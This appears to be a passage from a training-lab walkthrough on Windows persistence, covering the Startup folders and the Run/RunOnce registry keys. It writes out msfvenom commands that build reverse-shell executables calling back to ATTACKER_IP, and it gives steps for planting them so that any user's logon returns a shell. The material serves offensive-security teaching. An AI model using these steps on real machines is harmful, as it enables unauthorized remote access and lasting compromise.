 ### Startup folder

Each user has a folder under `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

For this task, let's generate a reverse shell payload using msfvenom:

`user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe`

We will then copy our payload into the victim machine. You can spawn an `http.server` with Python3 and use wget on the victim machine to pull your file:

### 17.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

We then store the payload into the `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.

`C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"`

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):

And log back via RDP. You should immediately receive a connection back to your attacker's machine.

### Run / RunOnce

You can also force a user to execute a program on logon via the registry. Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

The registry entries under `HKCU` will only apply to the current user, and those under `HKLM` will apply to everyone. Any program specified under the `Run` keys will run every time the user logs on. Programs specified under the `RunOnce` keys will only be executed a single time.

For this task, let's create a new reverse shell with msfvenom:

`user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe`

After transferring it to the victim machine, let's move it to C:\Windows\:

`C:\> move revshell.exe C:\Windows`

Let's then create a `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`. The entry's name can be anything you like, and the value will be the command we want to execute.
